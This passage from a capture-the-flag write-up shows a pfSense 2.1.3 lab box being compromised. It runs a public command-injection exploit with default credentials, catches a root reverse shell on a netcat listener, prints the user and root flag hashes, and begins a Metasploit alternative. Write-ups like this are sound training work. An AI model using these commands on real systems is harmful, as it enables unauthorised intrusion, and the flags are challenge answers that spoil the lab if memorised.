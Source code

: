 Let's start a nc listener and run the exploit.
```
hippoeug@kali:~$ python3 43560.py --rhost 10.129.143.86 --lhost 10.10.x.x --lport 4545 --username rohit --password pfsense
CSRF token obtained
Running exploit...
Exploit completed
```
Seems successful. Let's take a look at our nc listener.
```
hippoeug@kali:~$ nc -lnvp 4545
listening on [any] 4545 ...
connect to [10.10.x.x] from (UNKNOWN) [10.129.143.86] 25934
sh: can't access tty; job control turned off
# pwd
/var/db/rrd
# whoami
root
...
# pwd
/home/rohit
# ls
.tcshrc
user.txt
# cat user.txt
8721327cc232073b40d27d9c17e7348b# cd ..
...
# pwd
/root
# ls
.cshrc
.first_time
.gitsync_merge.sample
.hushlogin
.login
.part_mount
.profile
.shrc
.tcshrc
root.txt
# cat root.txt
d08c32a5d4f8c8b10e76eb51a69f1a86
```
We got both user and root flags without the need of any privilege escalation!

## 5. Alternative Port 443 Command Injection Exploit (Metasploit)
Apparently, there is a Metasploit module written for this `pfSense 2.1.3-RELEASE`. Doing a Google search, we see a result of the [Metasploit module](https://www.rapid7.com/db/modules/exploit/unix/http/pfsense_graph_injection_exec/).

We also do a search on Metasploit.
```
hippoeug@kali:~$ msfconsole
msf6 > search pfsense

Matching Modules
================

   #  Name                                            Disclosure Date  Rank       Check  Description
   -  ----                                            ---------------  ----       -----  -----------
```